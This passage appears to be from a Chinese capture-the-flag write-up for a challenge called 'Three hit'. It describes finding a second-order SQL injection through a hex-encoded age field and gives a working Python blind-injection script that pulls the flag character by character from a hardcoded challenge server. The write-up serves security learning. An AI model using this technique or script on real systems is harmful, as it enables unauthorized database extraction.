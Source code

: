 ![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q7.PNG)

### Three hit
进去后发现功能很少，猜测二次注入，发现username有正则限制，那么测试age，发现必须整数，这里可以用16进制绕过，测试一番后发现是个盲注

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q3.PNG)

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q.PNG)

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q1.PNG)

找了个脚本改了下

```
import requests
import binascii

url_register = "http://39.107.32.29:10000/index.php?func=register"
url_login = "http://39.107.32.29:10000/index.php?func=login"
result = '[*]result:'
for i in range(1, 65):
    for j in range(32, 127):
        age = "1223 or ascii(substr((select flag from flag limit 1),{0},1))={1}#".format(str(i), str(j))
        age = binascii.hexlify(bytes(age, 'utf8'))
        age = "0x" + str(age, "utf8")
        username = "pupiles{0}{1}".format(str(i), str(j))
        data = {
            "username": username,
            "password": "123456",
            "age": age
        }
        while True:
            try:
                resp1 = requests.post(url=url_register, data=data, allow_redirects=False)
                break
            except Exception as e:
                continue
        while True:
            try:
                resp2 = requests.post(url=url_login, data=data, allow_redirects=True)
                if "<a>123</a>" in resp2.text:
                    result += chr(j)
                    print(result)
                break
            except Exception as e:
                continue
```
盲注跑出flag

### Wechat
![](https://p2.ssl.qhimg.com/t011aefb72d68b8727e.jpg)

